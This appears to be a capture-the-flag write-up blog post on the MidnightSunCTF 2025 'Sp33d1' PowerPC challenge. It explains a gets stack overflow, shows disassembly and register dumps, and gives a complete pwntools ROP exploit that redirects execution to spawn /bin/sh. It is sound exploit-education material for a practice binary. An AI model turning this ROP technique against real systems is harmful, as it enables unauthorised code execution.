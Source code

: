 +++
title = 'MidnightSunCTF 2025 - Sp33d1'
date = 2025-05-18T18:00:02-03:00
tags = ['pwn', 'ctf']
draft = false
+++


This was a speedpwn challenge. I unfortunately wasn't able to play the CTF, it
only lasted 24h and I was busy the whole saturday, some kind of shabbos you can say.


This is a powerpc ROP challenge. Below is the disassembly of the `main`
function. The vulnerability is that we have a `gets` that stores a string of
any length in a stack variable, giving us a stack buffer overflow.


```goat
> PowerPC ELF32 2's complement, big endian
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          N/A        N/A          2043 Symbols      N/A   0               0               sp33d1
```


```asm
stwu r1, -0x20(r1)
mflr r0
stw r0, 0x24(r1)
stw r31, 0x1c(r1)
mr r31, r1
lis r9, 0x100c
lwz r9, 0x1210(r9)          ; 0x100c0278
                            ; obj._IO_2_1_stdin_
li r6, 0                    ; size_t size
li r5, 2                    ; int mode
li r4, 0                    ; char *buf
mr r3, r9                   ; FILE*stream
bl sym.setvbuf              ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
lis r9, 0x100c
lwz r9, 0x120c(r9)          ; 0x100c0148
                            ; obj._IO_2_1_stdout_
li r6, 0                    ; size_t size
li r5, 2                    ; int mode
li r4, 0                    ; char *buf
mr r3, r9                   ; FILE*stream
bl sym.setvbuf              ; int setvbuf(FILE*stream, char *buf, int mode, size_t size)
li r3, 0x3c
bl sym.alarm
bl sym.banner
lis r9, 0x1007
addi r3, r9, 0x6f70         ; int32_t arg1
crclr cr1eq
bl sym.__printf
addi r9, r31, 8
mr r3, r9                   ; char *s
crclr cr1eq
bl sym.gets                 ; char *gets(char *s)
li r9, 0
mr r3, r9
addi r11, r31, 0x20
lwz r0, 4(r11)
mtlr r0
lwz r31, -4(r11)
mr r1, r11
blr
```


Note that at the function's epilogue we have:

- `lwz r0, 4(r11)`  <- load `r11[4]` to `r0`
- `mtlr r0` <- move `r0` to link register 
- `blr` <- branch to link register

In gdb those are the registers right at the function's epilogue. By
sending an input with `cyclic(0x100)` we can see that we control:

- R0
- R1
- R11
- R31
- LR

```asm
 R0   0x68616161 ('haaa')
*R1   0x407ff8d0 ◂— 0x67616161 ('gaaa')
 R2   0x100cc580 ◂— 0
 R3   0
 R4   0x100c02bf (_IO_2_1_stdin_+71) ◂— 0xa100c1c
 R5   1
 R6   0xa
 R7   0x100c02c0 (_IO_2_1_stdin_+72) —▸ 0x100c1c08 (_IO_stdfile_0_lock) ◂— 0
 R8   0x100c0278 (_IO_2_1_stdin_) ◂— 0xfbad208b
 R9   0
 R10  1
 R11  0x407ff8d0 ◂— 0x67616161 ('gaaa')
 R12  0x40000222 ◂— 0
 R13  0x100c91f8 ◂— 0
 R14  0
 R15  0
 R16  0
 R17  0
 R18  0
 R19  0
 R20  0
 R21  0x100c0000 —▸ 0x100c91f8 ◂— 0
 R22  0x10000634 (main) ◂— stwu r1, -0x20(r1)
 R23  0x100c12c8 (environ) —▸ 0x407ffb4c —▸ 0x407ffd09 ◂— 'DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus'
 R24  0x10000138 (_init) ◂— stwu r1, -0x10(r1)
 R25  0x100bcdb4 —▸ 0x100c0d14 (_nl_global_locale+16) —▸ 0x100bd8b4 (_nl_C_LC_MONETARY) —▸ 0x100c1268 (_nl_C_name) ◂— 0x43000000 /* 'C' */
 R26  0x407ffb4c —▸ 0x407ffd09 ◂— 'DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus'
 R27  0x407ffc2c ◂— 0x16
 R28  0x407ffb44 —▸ 0x407ffd00 ◂— './sp33d1'
 R29  1
 R30  0x100bfff0 (_GLOBAL_OFFSET_TABLE_) ◂— 0
 R31  0x66616161 ('faaa')
 CR   0x20000222
 CTR  0x10014b00 (_IO_file_read) ◂— stwu r1, -0x10(r1)
*SP   0x407ff8d0 ◂— 0x67616161 ('gaaa')
 LR   0x68616161 ('haaa')
*PC   0x100006c8 (main+148) ◂— blr
```

Given that, we control the execution flow and can start ROP'ing.

There a a few things that make our life easier:

- there's no PIE.
- the ELF is statically linked.
- we have the `/bin/sh` string at `0x10077a8c`
- we have the `win` function at `0x100005f8` which calls system 


The only thing we need to do is to setup the `/bin/sh` as the first argument,
and then go to `win`.

I tried using `ROPGadget` but it didn't work with the ppc ELF, even though it's
supported, instead of trying to fix it, I just tried with `ropper` and it
worked.

Most gadgets found by the tool look like this:

- 0x100716e4: add r1, r1, r10; blr; 

This is different that I'm used to do when ROP'ing, since x64 the `ret`
instruction can be used to chain our ROP. Below is the full solution:

from pwn import *

```python
context(arch='PowerPC', bits=32, endian='big')

#io = remote('sp33d.play.hfsc.tf', 20020)
#io = gdb.debug('./sp33d1', 'b main')
io = process('./sp33d1')

set_r3 = 0x100712b4 # lwz r3, 0x10(r1); lwz r0, 0x24(r1); lwz r30, 0x18(r1); addi r1, r1, 0x20; mtlr r0; blr; 

win = 0x100005f8
bin_sh = 0x10077a8c

io.sendline(flat([
    b'a' * 0x1c,
    p32(set_r3 + 2),
    p32(win + 2),
    b'b' * 4,
    p32(bin_sh),
    b'c' * 0x10,
    p32(win),
]))

io.interactive()
```
